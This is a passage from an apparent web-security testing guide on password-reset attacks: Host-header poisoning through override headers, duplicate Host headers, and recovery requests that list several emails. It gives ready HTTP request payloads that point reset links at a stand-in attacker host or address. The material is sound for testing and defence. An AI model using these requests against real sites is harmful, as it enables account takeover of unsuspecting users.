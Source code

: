 References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

### Override Host header

Components in a delivery chain, such as proxies, can pass an original host requested by the client using additional of HTTP headers:

{% embed url="https://gist.github.com/0xn3va/b8ffb5c43d8dc24cdfcfc98e1890d71f" %}

You can try to use these headers for identifying the original host requested by the client in the `Host` request header:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
x-forwarded-host: attacker-website.com
x-host: attacker-website.com
x-original-host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### Several Host header

You can try to specify several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

## Several email addresses

Password recovery method can accept multiple recovery emails in one request. However, the method can search for an account to create a one-time token based on only one email, but send an email with a recovery link to all passed emails at once. For instance, if an application is vulnerable to such an attack, on the following request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```
